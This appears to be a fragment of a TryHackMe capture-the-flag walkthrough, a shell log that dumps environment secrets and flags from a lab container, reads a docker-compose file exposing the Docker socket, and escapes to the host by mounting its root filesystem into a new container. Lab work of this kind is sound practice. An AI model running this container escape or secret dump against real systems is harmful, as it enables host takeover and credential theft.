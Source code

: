 ```bash
CTF_RESOURCES=/app/src/resources
CTF_ENCRYPTION_IV=956a591992734c68
TERM=xterm
SHLVL=2
CTF_ENCRYPTION_KEY=2d3981f51f18b0b9568521bb39f06e5b
PATH=/usr/local/openjdk-11/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CTF_ADMIN_PANEL_FLAG=THM{a4113536187c6e84637a1ee2ec5359eca17bbbd1b2629b23dbfd3b4ce2f30604}
CTF_PASSWORD=ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599
JAVA_VERSION=11.0.16
_=/usr/bin/env
OLDPWD=/root

root@02e849f307cc:/# cat /app/docker-compose.yml    
cat /app/docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=stefan1197
      - CTF_PASSWORD=ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599
      - CTF_ENCRYPTION_KEY=2d3981f51f18b0b9568521bb39f06e5b
      - CTF_ENCRYPTION_IV=956a591992734c68
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}
      - CTF_ADMIN_PANEL_FLAG=THM{a4113536187c6e84637a1ee2ec5359eca17bbbd1b2629b23dbfd3b4ce2f30604}
      
root@02e849f307cc:/# docker image ls
REPOSITORY               TAG       IMAGE ID       CREATED        SIZE
padding-oracle-app_web   latest    cd6261dd9dda   5 months ago   1.01GB
<none>                   <none>    4187efabd0a5   5 months ago   704MB
gradle                   7-jdk11   d5954e1d9fa4   5 months ago   687MB
openjdk                  11        47a932d998b7   2 years ago    654MB

root@02e849f307cc:/# docker run -v /:/host --rm -it openjdk:11 sh

# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)
# pwd
pwd
/
# python3 -c 'import pty;pty.spawn("/bin/bash");
root@b80c81ac62ee:/# export TERM=xterm
root@b80c81ac62ee:/# 
```
